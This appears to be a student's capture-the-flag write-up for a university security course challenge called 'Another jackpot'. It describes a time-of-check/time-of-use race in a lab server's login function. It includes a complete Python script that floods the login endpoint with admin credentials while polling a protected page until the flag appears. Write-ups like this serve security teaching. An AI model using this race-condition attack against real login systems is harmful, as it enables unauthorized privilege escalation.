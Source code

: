# Challenge `Another jackpot` writeup

- Vulnerability: What type of vulnerability is being exploited
  - Vulnerable to TOCTOU

- Where: Where is the vulnerability present
  - `http://mustard.stt.rnl.tecnico.ulisboa.pt:23652`

- Impact: What results of exploiting this vulnerability
  - Allows the user to gain admin permission, by exploiting a race condition in the login function, setting the username before checking for validity

## Steps to reproduce

1. Try to login on `http://mustard.stt.rnl.tecnico.ulisboa.pt:23652/login` using the `admin` username
2. Simultaneously, try to access `http://mustard.stt.rnl.tecnico.ulisboa.pt:23652/jackpot` in the same session

The code used was the following:

```py
import requests
from concurrent.futures import ThreadPoolExecutor
from threading import Event

def jackpot(stop_event):
    while not stop_event.is_set():
        jackpot_response = session.get("http://mustard.stt.rnl.tecnico.ulisboa.pt:23652/jackpot")
        if 'SSof{' in jackpot_response.text:
            print(jackpot_response.text)
            stop_event.set()

def login(stop_event):
    while not stop_event.is_set():
        login_url = 'http://mustard.stt.rnl.tecnico.ulisboa.pt:23652/login'
        login_data = {'username': 'admin', 'password': 'admin'}
        session.post(login_url, data=login_data)

stop_event = Event()

session = requests.Session()

with ThreadPoolExecutor(max_workers=2) as executor:
    future_jackpot = executor.submit(jackpot, stop_event)
    future_login = executor.submit(login, stop_event)

future_jackpot.result()
stop_event.set()
future_login.result()
```